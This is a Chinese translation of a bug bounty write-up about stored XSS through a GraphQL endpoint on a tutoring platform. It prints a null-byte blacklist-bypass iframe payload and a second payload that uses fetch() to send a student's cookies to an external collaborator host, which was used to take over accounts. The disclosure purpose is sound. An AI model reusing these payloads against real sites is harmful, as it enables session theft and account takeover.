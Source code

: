 # Pwning 您的分配:通过 GraphQL 端点存储 XSS

> 原文：<https://infosecwriteups.com/pwning-your-assignments-stored-xss-via-graphql-endpoint-6dd36c8a19d5?source=collection_archive---------1----------------------->

# 背景

这个 bug 是在一个高度成熟的 bug bounty 程序中发现的，该程序作为一个公共/私人程序在各种众包平台上运行了 4-5 年。事实上，这个程序已经停止运行，而且这个错误是在 5 个月前报告的，所以我决定在社区里分享这个错误:)
所以让我们开始吧！

当我开始研究这个程序时，它报告了 700 多个错误，因此由于这个程序的成熟，它有奖金。我花了 2-3 天时间观察目标，一无所获。大约一个星期后，我和一个随机的大学朋友进行了讨论，他告诉我关于通过帮助年轻学生的平台赚钱的事情。令人惊讶的是，这是我追求的同一家公司。他谈到的辅导功能是不能直接访问的。

在研究该特定功能时，我发现了以下情况:

*   它需要一个帐户注册。
*   通过一个我期待能帮助学生的测试。
*   提交政府文件。身份证明。
*   等待 2 周进行验证。

我认为很难使用这个功能。因此，很多人可能不会深入应用程序。我申请了计算机科学辅导，通过了考试，现在我可以选择帮助学生做作业了！

我决定在这里检查的 bug 类型有:CSRF、伊多尔和 XSS。CSRF 很快就失败了，因为每个请求都有大量的检查。此外，在 UUIDv4 被正确使用的情况下，IDOR 对我来说并不实用。

# XSS 来了！

在回答问题时，我发现“，>”是允许的，但是像 script、iframe、alert 等关键字被从答案中删除了。翻了一下 [Web Hacker's Handbook](https://www.amazon.in/Web-Application-Hackers-Handbook-Exploiting-ebook/dp/B005LVQA9S) ，发现在*>*前加了一个 *%00(空字节)*并没有对关键词进行净化。因此，我创建了以下有效负载:

```
<iframe %00 src=\"javascript:prompt(1)\"%00>
```

*   *%00* 绕开黑名单
*   *\"* 在 GraphQL 输入字段中传递双引号

上述有效载荷反映如下:

![](img/8e1819c51c9b74cefa889b97e3af3af0.png)

源代码中的反射

而且我得到了有 cookies 的提示！

![](img/13bfa6de360115d005e271de9047e8fc.png)

XSS 提示！

我很快报告了这个 bug，但是 triager 认为它是一个自我存储的 XSS，并要求我演示影响。

**攻击场景/最终利用**
一名学生提出了一个疑问，教师用一个盲 XSS 有效载荷提交了答案。一旦学生检查了答案，他的 cookies 就会被传递给教师。因此，每次教师帮助学生时，他/她都可以接管学生的帐户！

**有效载荷:**

```
<iframe %00 src= javascript:fetch(\"//XXXXXXXXXXXXXXXXXXXXXXXXXXXXX.burpcollaborator.net/?param=\"+document.cookie)  %00>
```

*   *fetch()* 允许发出类似于 XMLHttpRequest (XHR)的网络请求
*   */？param=* 添加以避免使其成为域的一部分

我很快回答了一个学生的问题，并在解答的最后加上了上面的有效载荷。不到 5 分钟，学生检查了答案，瞧，我有了学生的饼干！

![](img/6b7940f49a3de948b1359c7a6ca67723.png)

学生饼干拿来了

在对以前的报告进行修改后，它最终被接受为有效的调查结果。

![](img/564f9695ac7c28d4e53f8c780c6bdc60.png)

奖励:)

# 外卖食品

保持好奇心，永远深入研究应用程序。其他黑客通常会忽略更难访问的功能。

感谢 [Dk999](https://twitter.com/debangshu_kundu) 校对文章:)

如果你对这个发现有疑问，请在[推特](https://twitter.com/dominat0r98)上给我留言。不久将披露更多的报道。狩猎愉快！